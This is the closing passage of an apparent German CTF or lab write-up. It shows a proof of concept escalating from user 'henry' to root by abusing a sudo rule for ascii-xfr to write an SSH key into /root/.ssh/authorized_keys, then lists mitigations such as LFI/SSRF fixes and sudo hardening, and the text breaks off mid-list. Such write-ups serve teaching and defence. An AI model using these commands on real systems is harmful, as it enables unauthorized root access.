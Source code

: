 
## Proof of Concept (Finale Root-Eskalation)

**Kurzbeschreibung:** Die finale Privilegieneskalation von `henry` zu `root` erfolgte durch eine unsichere `sudo`-Regel, die `henry` erlaubte, das Programm `ascii-xfr` (vermutlich als `root`) auszuführen. Dies wurde genutzt, um den öffentlichen SSH-Schlüssel von `henry` in die Datei `/root/.ssh/authorized_keys` zu schreiben. Anschließend konnte sich `henry` per SSH als `root` am System anmelden.

**Schritte (als `henry`):**
1.  Erstelle ein SSH-Schlüsselpaar, falls nicht vorhanden:
    ```bash
    mkdir -p ~/.ssh && cd ~/.ssh
    ssh-keygen -t rsa -f id_rsa -N "benni" # Beispiel-Passphrase
    cp id_rsa.pub authorized_keys
    ```
2.  Verwende `sudo ascii-xfr`, um den öffentlichen Schlüssel zu `/root/.ssh/authorized_keys` hinzuzufügen:
    ```bash
    sudo ascii-xfr -rv /root/.ssh/authorized_keys < authorized_keys
    ```
3.  Logge dich als `root` per SSH ein:
    ```bash
    ssh root@localhost -i ~/.ssh/id_rsa
    # Gib die Passphrase "benni" ein
    ```
**Ergebnis:** Eine Shell mit `uid=0(root)` wird gestartet.

---

## Flags

*   **User Flag (`/home/edward/user.txt` - Pfad angenommen):**
    *   Die User-Flagge wurde im Original-Log nicht explizit gezeigt.
*   **Root Flag (`/root/root.txt` - Pfad angenommen):**
    *   Die Root-Flagge wurde im Original-Log nicht explizit gezeigt.

---

## Empfohlene Maßnahmen (Mitigation)

*   **Webanwendungssicherheit (LFI/SSRF):**
    *   **DRINGEND:** Beheben Sie die Local File Inclusion (LFI)-Schwachstelle in `/advanced-search/path.php`. Alle Benutzereingaben (insbesondere Dateipfade und URLs) müssen strikt validiert und saniert werden. Verwenden Sie Whitelisting für erlaubte Pfade/Protokolle.
    *   Beschränken Sie die Fähigkeit des Webservers, ausgehende Netzwerkverbindungen zu beliebigen internen oder externen Adressen herzustellen (SSRF-Mitigation).
*   **Sicherung interner Dienste:**
    *   Interne Dienste (wie der auf `127.0.0.1:2222`) sollten angemessen gesichert sein und keine sensiblen Daten (wie Backups mit privaten Schlüsseln) preisgeben.
*   **SSH-Schlüssel-Management:**
    *   Private SSH-Schlüssel dürfen **niemals** in zugänglichen Backups oder über unsichere Kanäle exponiert werden.
    *   Erzwingen Sie starke, einzigartige Passphrasen für alle SSH-Schlüssel.
*   **Sudo-Konfiguration:**
    *   **DRINGEND:** Überprüfen und härten Sie alle `sudo`-Regeln.
        *   Entfernen Sie die Regel, die `www-data` erlaubt, `watch` als `henry` auszuführen.
        *   Entfernen Sie die Regel, die `henry` erlaubt, `ascii-xfr` als `root` auszuführen.
    *   Gewähren Sie `sudo`-Rechte nur nach dem Prinzip der geringsten Rechte. Vermeiden Sie es, Benutzern die Ausführung von Tools zu erlauben, die zur Befehlsausführung oder Dateimanipulation missbraucht werden können.
*   **Webserver-Sicherheit:**